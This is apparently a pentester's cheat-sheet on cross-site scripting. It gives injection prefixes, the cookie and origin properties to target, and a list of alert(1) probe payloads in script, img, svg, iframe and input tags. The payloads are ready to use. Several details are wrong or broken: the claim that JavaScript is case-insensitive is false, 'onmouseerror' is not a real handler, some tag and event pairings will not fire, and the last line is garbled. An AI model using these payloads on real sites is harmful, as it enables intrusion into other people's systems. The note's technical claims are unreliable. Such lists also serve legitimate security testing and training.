 # JavaScript

Search Tag(s): #helpers #webapp-pentesting #cross-site-scripting

> [!INFO]
> JavaScript code snippets are case insensitive. Use this to your advantage to obfuscate it.

## 01 - Prefix

```
>
'>
">
```

## 02 - JavaScript Cookie Properties

```
document.cookie
window.origin
document.cookie
```

## 03 - JavaScript Pop-Up Message

```
<script>alert(1)</script>
<script>print()</script>

<img src="" onerror=alert(1)>
<img src=# onmouseerror=alert(1)>
<svg src="" onerror=alert(1)>
<img src=# onmouseerror=alert(1)>

<iframe src="" onerror=alert(1)>

<input autofocus onfocus="setTimeout(function() {alert(1)}, 5000);"></input><;/style<;/title<;/textarea<;/script>
```